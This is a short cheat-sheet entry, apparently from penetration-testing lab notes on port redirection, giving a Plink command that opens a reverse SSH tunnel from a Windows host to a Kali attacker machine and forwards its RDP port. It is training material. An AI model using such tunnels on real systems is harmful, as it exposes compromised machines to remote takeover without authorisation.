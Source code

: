 # 19. Port Redirection and SSH Tu — Entry 59

## Categorie

Plink

## Commando

```
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

## Omschrijving

```
Making an SSH connection to the Kali machine
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

